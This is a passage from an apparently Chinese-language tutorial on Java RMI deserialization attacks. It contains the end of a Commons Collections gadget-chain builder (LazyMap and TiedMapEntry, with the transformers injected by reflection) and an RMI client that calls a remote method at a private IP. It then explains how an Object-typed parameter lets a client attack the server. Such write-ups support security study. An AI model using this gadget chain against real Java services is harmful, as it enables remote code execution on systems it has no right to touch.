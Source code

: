```java

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return expMap;

    }
}
```

编写 Client (需要调用指定方法)

```java
package org.example;

import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class Client {
    public static void main(String[] args) throws Exception{

        Registry registry = LocateRegistry.getRegistry("192.168.100.1", 1099);
        Hello hello = (Hello) registry.lookup("hello");
        hello.world();
    }
}

interface Hello extends Remote{
    public Object world() throws RemoteException, NoSuchFieldException, IllegalAccessException;
}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211202016322.png)

### 攻击 Server

与 Server 攻击 Client 一样, 被调用的接口方法中需要存在 Object 类型的参数, 这样 Server 端会对传输过来的数据进行反序列化

编写 Client
